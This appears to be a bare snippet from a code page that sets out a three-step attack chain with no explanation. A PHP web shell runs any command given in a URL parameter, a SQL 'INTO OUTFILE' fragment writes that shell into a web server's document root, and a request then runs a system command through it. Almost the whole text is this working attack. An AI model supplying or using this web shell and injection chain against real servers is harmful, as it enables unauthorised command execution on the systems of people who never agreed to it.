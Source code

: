 # 1
```php
<?php echo(system($_GET["cmd"])); ?>
```
# 2
```sql
INTO OUTFILE '/var/www/html/rce.php'
```
# 3
```sql
rce.php?cmd=uname -a
```
